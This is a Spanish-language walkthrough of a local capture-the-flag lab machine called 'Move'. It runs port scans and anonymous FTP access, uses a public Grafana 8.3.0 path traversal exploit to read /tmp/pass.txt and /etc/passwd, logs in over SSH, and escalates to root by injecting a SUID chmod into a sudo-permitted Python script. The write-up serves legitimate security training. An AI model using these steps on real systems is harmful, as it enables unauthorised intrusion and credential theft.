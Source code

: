 - Tags: #move 
---
[Maquina Move](https://mega.nz/file/MKMzkSRA#UCxX3Ns2Ew_YQlayKPyyi6rmQrRbySxC7hhpWJfMoy8) ==> Enlace de descarga al laboratorio.
```bash
7z x move.zip # Descomprimimos el archivo.
sudo bash auto_deploy.sh move.tar # Desplegamos el laboratorio.
```

#### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target.
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el target
wihcSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux.
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos escaneo de puertos.
scanerTCPV2.py -t 172.17.0.2 -p 1-5000 # Nuestra herramienta detecta los mismos puertos.
extractPorts allPorts # Parseamos la informacion mas relevante de el primer escaneo.
nmap -sC -sV -p21,22,80,3000 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos.
```

**( 21/tcp   open  ftp     vsftpd 3.0.3 )** ==> Tenemos este servicio expuesto, 
```bash
nmap --script ftp-anon.nse -p 21 172.17.0.2 # Para este servicio detectamos que es posible conectarnos con el usuario anonymous sin proporcionar password.

ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Mar 29  2024 mantenimiento [NSE: writeable] # Al paracer tenemos un archivo o directorio, con capacidad de escritura
```

**( 22/tcp   open  ssh     OpenSSH 9.6p1 Debian 4 (protocol 2.0) )** ==> Tenemos un servicio ssh expuesto, El cual si existen credenciales filtradas podremos usar para loguearnos.
**( 80/tcp   open  http    Apache httpd 2.4.58 ((Debian)) )** ==> Tenemos un servicio web expuesto.
**( 3000/tcp open  http    Grafana http )** ==> Tenemos este servicio expuesto, Grafana es una plataforma interactiva y dinámica de código abierto que se utiliza para **visualizar, almacenar, analizar y comprender datos**, especialmente aquellos relacionados con métricas de rendimiento de aplicaciones y sistemas IT. Es decir, te permite crear dashboards interactivos y personalizables para monitorear y entender mejor la información

#### Fase Enumeracion FTP:
```bash
ftp 172.17.0.2 # Nos conectamos con el usuario: ( anonymous ) y sin proporcionar contrasena.
mantenimiento: # Adrento de este directorio tenemos el siguiente archivo: ( database.kdbx )
get database.kdbx # Nos descargamos este archivo
```
Si buscamos en internet vemos que el archivo **database.kdbx** se puede desencriptar con [Keepassxc](https://keepassxc.org/).
Si recordamos, nos salía haciendo **fuzzing** un archivo llamado **maintenance.html**, en el que dice que el sitio web está en mantenimiento, que acceda a **/tmp/pass.txt**.

#### Fase Reconocimiento Web:
```bash
nmap --script http-enum -p 80 172.17.0.2 # No reporta nada critico
whatweb http://172.17.0.2 # No reporta nada critco
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,php.back,back,txt,html,css,js # Realizamos descubrimiento de archivos en el servidor.
```

**( http://172.17.0.2/maintenance.html )** ==> Tenemos un archivo expuesto, Sitio web en mantenimiento, el acceso está en /tmp/pass.txt
**( http://172.17.0.2:3000/login )** ==> Tenemos **Grafana** con una version: **( v8.3.0 )** el cual buscaremos un exploit para esa version
```bash
searchsploit grafana 8.3.0 # Encontramos un exploit para esta version que contempla un DirecotryPathTraversal
searchsploit -x multiple/webapps/50581.py  # vemos su contenido para ver como aplicarlo, Donde solo tendremos que pasarle el directorio a aplicar el LFI, atraves de in input
searchsploit -m multiple/webapps/50581.py # Nos descargamos este exploit
python3 50581.py -H http://172.17.0.2:3000 # Lo ejecutamos indicando que queremos ver el contenido del archivo: ( /tmp/pass.txt )

t9sH76gpQ82UFeZ3GXZS # Obtuvimos este hast que tendremos que determinar de que tipo es para aplicar fuerza bruta. Al parecer es texto
freddy:x:1000:1000::/home/freddy:/bin/bash # Al listar el ( /ect/passwd ) vemos que existe ese usuario asi que probaremos si podemos loguearnos por ssh con ese usaurio y password
```

#### Fase Intrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh freddy@172.17.0.2 # Despues proporcionamos la password: ( t9sH76gpQ82UFeZ3GXZS )
```

#### Fase Escalada Privilegios:
```bash
sudo -l
User freddy may run the following commands on c26ed76529ad:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py # Tenemos una via potencial de elevar privilegios.
```

**Nota:** ==> Nos aprovechamos que nosotros somos los duenos de este archivo para modificarlo y inyectar codigo maliciosa para que se asignen privielgios **SUID** a la bash
```bash
maintenance.py # Este archivo modificamos

import os;
os.system("chmod u+s /bin/bash")
print("Hacked")
```

```bash
sudo -u root /usr/bin/python3 /opt/maintenance.py 
Hacked # Resultado de la ejecucion
```

```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1277936 Nov 26  2023 /bin/bash # Logramos cambiarle los permisos a la bash.
```

```bash
 bash -p # Ahora obtendremos un bash como root. Logrando tener control total sobre el target.
```